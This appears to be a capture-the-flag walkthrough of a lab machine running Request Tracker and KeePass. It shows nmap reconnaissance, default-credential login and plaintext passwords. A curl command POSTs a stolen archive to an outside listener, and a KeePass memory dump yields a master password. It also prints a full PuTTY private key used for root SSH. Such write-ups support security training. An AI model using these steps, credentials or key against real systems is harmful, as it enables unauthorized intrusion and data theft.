








Discover
nmap
sudo nmap -A -sV -sT -v -O -T4 -p- 10.10.11.227
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)
|_ 256 1ae972be8bb105d5effedd80d8efc066 (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods:
|_ Supported Methods: GET HEAD
Aggressive OS guesses: Linux 4.15 - 5.6 (95%)web


Version: 4.4.4+dfsg-2ubuntu1
Bestpractical Request Tracker 4.4.4 : Related security vulnerabilities - Bestpractical Request Tracker version 4.4.4: Security vulnerabilities, exploits, vulnerability statistics, CVSS scores and references
Access
- Found out default credentials still work on the login page →
root:passwordscreenshot

- Found some interesting information on a recently viewed ticket. About Keepass
screenshot

- Found a password in the comments →
Inorgaard:Welcome2023!
ssh lnorgaard@10.10.11.227
Found user flag → 62fe1e8596e83c5fee6a6963d5f45625
Keepass
Also found the .zip file with the keepass dump
- Download file using curl:
curl -X POST -F file=@RT30000.zip http://10.10.16.6:88 - It contains the following files

- Dump password
The .kdbx file reminds me of Rastalabs, I read some articles about extracting the masterpassword lets try it: https://github.com/vdohney/keepass-password-dumper
# Using windows vm git clone https://github.com/vdohney/keepass-password-dumper dotnet run ..\Desktop\KeePassDumpFull.dmp Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med flødeThey typed it wrong in the dump remember the ticket, they're probably referring to this dish:

- Install keepass and open db file → Master pw works 🙂
- root:F4><3K0nd!
putty key file
PuTTY-User-Key-File-3: ssh-rsa Encryption: none Comment: rsa-key-20230519 Public-Lines: 6 AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D 8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et Private-Lines: 14 AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV 09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is= Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0 - Michael321:12345
- root:F4><3K0nd!
Root access
- Try root credentials using
sshorsu→ not working - Split putty .ppk into openssh keys
# Install putty tools sudo apt-get install putty-tools puttygen oi.ppk -O private-openssh -o id_dsa # private key puttygen oi.ppk -O public-openssh -o id_dsa.pub. # public key # Permissions chmod 600 id_dsa chmod 666 id_dsa.pub - ssh and specify key
ssh root@10.10.11.227 -i Desktop/id_dsa
Root flag → b2794583f2e532a3f1a2c8e2e5346288